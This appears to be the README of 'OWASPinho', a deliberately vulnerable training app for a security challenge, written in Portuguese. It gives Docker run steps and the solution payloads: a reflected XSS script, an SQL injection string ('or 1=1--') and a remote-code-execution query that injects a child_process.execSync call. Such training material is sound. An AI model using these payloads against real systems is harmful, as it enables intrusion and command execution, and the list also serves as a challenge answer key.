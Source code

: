 # OWASPinho
- [OWASPinho](#owaspinho)
  - [Desafio](#desafio)
  - [Execução](#execução)
  - [Vulnerabilidades](#vulnerabilidades)
    - [XSS](#xss)
    - [SQL Injection](#sql-injection)
    - [RCE](#rce)



## Desafio

Leia as instruções [aqui](DESAFIO.md).

## Execução

```
$ unzip owaspinho.zip
$ cd owaspinho
$ docker-compose up
```

![](https://res.cloudinary.com/dtr6hzxnx/image/upload/v1681241692/Via/2023-04-11_16.24.37_kmoglj.gif)

![image-20230411163617555](images/image-20230411163617555.png)


## Vulnerabilidades 
### XSS
```
/?userInput=<script>alert(1)</script>
```
### SQL Injection
```
/users?username='+or+1=1--&access-token=' 
```
### RCE
```
/users/has-access?userId=1&resourceId=42&userAccessCheck=function(userId,%20resourceId)%20{%20return%20require('child_process').execSync('ping+-c+4+localhost').toString();%20}
```